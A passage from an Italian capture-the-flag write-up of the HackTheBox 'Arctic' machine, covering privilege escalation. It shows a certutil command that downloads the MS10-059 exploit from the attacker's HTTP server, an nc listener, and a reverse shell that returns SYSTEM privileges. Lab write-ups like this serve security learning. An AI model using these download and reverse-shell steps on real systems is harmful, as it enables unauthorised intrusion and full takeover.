 lo scarichiamo e tiriamo su un server python per poterlo scaricare nella macchina target:

```
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Dalla macchina target lo scarichiamo con certuli :

```cmd
C:\Users\tolis\Desktop>certutil -urlcache -split -f "http://10.10.14.53:8000/MS10-059.exe" MS10-059.exe
certutil -urlcache -split -f "http://10.10.14.53:8000/MS10-059.exe" MS10-059.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

Ci mettiamo in ascolto con nc sulla nostra macchina:

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# nc -lnvp 80  
listening on [any] 80 ...
```

lanciamo l'exploit come segue:

```cmd
C:\Users\tolis\Desktop>MS10-059.exe 10.10.14.53 80
```

Otteniamo cosi un shell con massimi privlegi:

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# nc -lnvp 80  
listening on [any] 80 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.11] 52776
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\tolis\Desktop

17/05/2023  04:37     <DIR>          .
17/05/2023  04:37     <DIR>          ..
17/05/2023  04:35            141.861 Blob0_0.key
17/05/2023  04:35            141.861 Chimicurri.exe
17/05/2023  04:37            784.384 MS10-059.exe
17/05/2023  01:52                 34 user.txt
               4 File(s)      1.068.140 bytes
               2 Dir(s)   1.422.209.024 bytes free

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```
